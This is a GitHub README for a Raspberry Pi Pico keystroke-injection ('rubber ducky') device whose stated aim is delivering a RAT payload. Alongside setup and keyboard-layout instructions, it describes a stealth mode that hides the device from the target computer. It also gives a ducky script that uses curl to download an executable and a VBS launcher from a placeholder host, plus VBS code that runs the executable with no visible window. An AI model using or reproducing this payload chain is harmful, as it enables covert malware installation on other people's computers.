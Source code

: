[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![MIT License][license-shield]][license-url]
[![Issues][issues-shield]][issues-url]


# pi-pico-rubber-ducky



Aim is to run a R.A.T payload btw of a Raspberry Pi-Pico (rp2040) running ducky scripts. Part of : https://github.com/Denis-REMACLE/K-ptain.Ratz


### Using

1. To use this repo please download first the [Circuitpython .uf2 file](https://circuitpython.org/board/raspberry_pi_pico/) 
2. Plug the device into a USB port while holding the boot button. It will show up as a removable media device named `RPI-RP2`.
3. Jsut drag and drop the `.uf2` file into the root directory of the Pi Pico. The device will now reboot as `CIRCUITPY`.  
4. Download and copy the repo content to the Pico :
```sh
git clone https://github.com/nzkoxzu/pi-pico-rubber-ducky.git
```
```sh
cp -r pi-pico-rubber-ducky/* /media/username/CIRCUITPY/
```
5. [Create your own ducky script](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript) and save it as `payload.dd` in the Pico.
6. Careful, if your device isn't in setup mode, the device will reboot and after half a second, the ducky script will run.


# Setup mode

To edit the payload, enter setup mode by connecting the pin 1 (`GP0`) to pin 3 (`GND`), this will stop the pico-ducky from injecting the payload in your own machine. The easiest way to so is by using a jumper wire between those pins as seen bellow.

![setup-mode](https://raw.githubusercontent.com/nzkoxzu/pi-pico-rubber-ducky/main/images/setup-mode.png)

# USB enable/disable mode

If you need the pico-ducky to not show up as a USB mass storage device for stealth, follow these instructions.
1. Enter setup mode.
2. Copy `boot.py` to the root of the pico-ducky.
Copy your `payload.dd` script to the pico-ducky.
Disconnect the pico from your host PC. Connect a jumper wire between pin 18 (`GND`) and pin 20 (`GPIO15`). This will prevent the pico-ducky from showing up as a USB drive when plugged into the target computer.
Remove the jumper and reconnect to your PC to reprogram. The default mode is USB mass storage enabled.

![usb-boot-mode](https://raw.githubusercontent.com/nzkoxzu/pi-pico-rubber-ducky/main/images/usb-boot-mode.png)

# VBS silently starting malicious file 

For Windows, if you want to silently run `.exe` files you can run them with VBS. Your `payload.dd` should looks like this :

```dd
STRING curl.exe --output not_malicious_file.exe --url https://youwebsite.example/ressources/not_malicious_file.exe
ENTER
DELAY 1000
STRING curl.exe --output starter.vbs --url https://youwebsite.example/ressources/starter.vbs
ENTER
DELAY 1000
STRING wscript starter.vbs
ENTER
```
This will download `not_malicious_file.exe` and `starter.vbs`. The `starter.vbs` looks like this :

```vbs
Dim WShell
Set WShell = CreateObject("WScript.Shell")
WShell.Run "not_malicious_file.exe", 0
Set WShell = Nothing
```
This VBS file will launch `not_malicious_file.exe` and the `, 0` statement enable silent run.


# Changing Keyboard layouts
Copied from [Neradoc/Circuitpython_Keyboard_Layouts](https://github.com/Neradoc/Circuitpython_Keyboard_Layouts/blob/main/PICODUCKY.md)  

#### How to use one of these layouts with the pico-ducky repository.

**Go to the [latest release page](https://github.com/Neradoc/Circuitpython_Keyboard_Layouts/releases/latest), look if your language is in the list.**

#### If your language/layout is in the bundle

Download the `py` zip, named `circuitpython-keyboard-layouts-py-XXXXXXXX.zip`

**NOTE: You can use the mpy version targetting the version of Circuitpython that is on the device, but on Raspberry Pi Pico you don't need it - they only reduce file size and memory use on load, which the pico has plenty of.**

#### If your language/layout is not in the bundle

Try the online generator, it should get you a zip file with the bundles for yout language

https://www.neradoc.me/layouts/

#### Now you have a zip file

#### Find your language/layout in the lib directory

For a language `LANG`, copy the following files from the zip's `lib` folder to the `lib` directory of the board.  
**DO NOT** modify the adafruit_hid directory. Your files go directly in `lib`.  
**DO NOT** change the names or extensions of the files. Just pick the right ones.  
Replace `LANG` with the letters for your language of choice.

- `keyboard_layout_win_LANG.py`
- `keycode_win_LANG.py`

Don't forget to get [the adafruit_hid library](https://github.com/adafruit/Adafruit_CircuitPython_HID/releases/latest).

This is what it should look like **if your language is French for example**.

![CIRCUITPY drive screenshot](https://github.com/Neradoc/Circuitpython_Keyboard_Layouts/raw/main/docs/drive_pico_ducky.png)

#### Modify the pico-ducky code to use your language file:

At the start of the file comment out these lines:

```py
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS as KeyboardLayout
from adafruit_hid.keycode import Keycode
```

Uncomment these lines:  
*Replace `LANG` with the letters for your language of choice. The name must match the file (without the py or mpy extension).*
```py
from keyboard_layout_win_LANG import KeyboardLayout
from keycode_win_LANG import Keycode
```

##### Example:  Set to German Keyboard (WIN_DE)

```py
from keyboard_layout_win_de import KeyboardLayout
from keycode_win_de import Keycode
```

Copy the files keyboard_layout_win_de.mpy and keycode_win_de.mpy to the /lib folder on the Pico board
```
adafruit_hid/
keyboard_layout_win_de.mpy
keycode_win_de.mpy
```
<p align="right">(<a href="#top">back to top</a>)</p>

[contributors-shield]: https://img.shields.io/github/contributors/nzkoxzu/pi-pico-rubber-ducky.svg?style=plastic&logo=appveyor&logo=appveyor&color=success
[contributors-url]: https://github.com/nzkoxzu/pi-pico-rubber-ducky/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/nzkoxzu/pi-pico-rubber-ducky.svg?style=plastic&logo=appveyor&logo=appveyor&color=yellow
[forks-url]: https://github.com/nzkoxzu/pi-pico-rubber-ducky/network/members
[license-shield]: https://img.shields.io/github/license/nzkoxzu/pi-pico-rubber-ducky.svg?style=plastic&logo=appveyor&logo=appveyor&color=orange
[license-url]: https://github.com/nzkoxzu/pi-pico-rubber-ducky/blob/master/LICENSE.txt
[issues-shield]: https://img.shields.io/github/issues/nzkoxzu/pi-pico-rubber-ducky.svg?style=plastic&logo=appveyor&logo=appveyor&color=red
[issues-url]: https://github.com/nzkoxzu/pi-pico-rubber-ducky/issues
